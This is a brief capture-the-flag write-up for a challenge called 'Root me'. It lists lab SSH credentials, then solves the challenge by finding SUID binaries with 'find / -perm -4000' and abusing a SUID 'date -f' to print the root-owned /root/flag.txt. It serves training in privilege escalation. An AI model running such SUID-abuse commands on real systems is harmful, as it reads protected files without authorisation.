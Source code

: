 # Root me
* 

## Challenge Text
* SSH into the challenge host on port 2222
* Username: ubuntu Password: jctf2022!
* Find the flag

## Solution
* Use the find command to find any files owned by root with the SUID bit set
```
find / -perm -4000 
```

* Use the date command to leak the flag
```
date -f /root/flag.txt
```


